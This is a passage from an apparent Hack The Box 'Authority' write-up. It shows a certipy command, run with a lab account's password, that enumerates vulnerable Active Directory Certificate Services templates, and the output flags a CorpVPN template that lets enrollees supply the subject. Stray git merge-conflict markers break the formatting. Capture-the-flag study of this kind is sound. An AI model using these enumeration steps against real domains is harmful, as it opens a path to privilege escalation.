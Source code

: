 ### ADCS Exploitation

We will use `certipy` on our attacker machine to enumerate ADCS. We can use find command to identify templates and use -vunlerable option to only show the vulnerables ones.

<<<<<<< HEAD
```
=======
```bash
>>>>>>> d0813a4 (Updated posts)
certipy find -dc-ip 10.10.11.222  -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -stdout -vulnerable
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 37 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Trying to get CA configuration for 'AUTHORITY-CA' via CSRA
[!] Got error while trying to get CA configuration for 'AUTHORITY-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'AUTHORITY-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'AUTHORITY-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : AUTHORITY-CA
    DNS Name                            : authority.authority.htb
    Certificate Subject                 : CN=AUTHORITY-CA, DC=authority, DC=htb
    Certificate Serial Number           : 2C4E1F3CA46BBDAF42A1DDE3EC33A6B4
    Certificate Validity Start          : 2023-04-24 01:46:26+00:00
    Certificate Validity End            : 2123-04-24 01:56:25+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : AUTHORITY.HTB\Administrators
      Access Rights
        ManageCertificates              : AUTHORITY.HTB\Administrators
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        ManageCa                        : AUTHORITY.HTB\Administrators
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Enroll                          : AUTHORITY.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : CorpVPN
    Display Name                        : Corp VPN
    Certificate Authorities             : AUTHORITY-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : AutoEnrollmentCheckUserDsCertificate
                                          PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
```